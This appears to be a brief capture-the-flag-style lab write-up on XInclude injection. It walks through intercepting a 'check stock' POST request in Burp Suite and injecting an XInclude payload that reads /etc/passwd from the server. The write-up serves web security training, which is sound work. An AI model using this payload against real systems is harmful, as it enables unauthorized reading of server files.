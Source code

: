 
### Exploiting XInclude to retrieve files : PRACTITIONER

---


> Viewing any item and then pressing on `check stock` while having BURPSUITE PROXY HTTP history on.

![](check-stock.png)

> Viewing the `POST` request sent via HTTP history.

![](lab8-1.png)

> To exploit via `XInclude` we add the payload to the `POST` request.
```XML
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

![](lab8-2.png)

> We view the `/etc/passwd` file and the lab is complete.

---

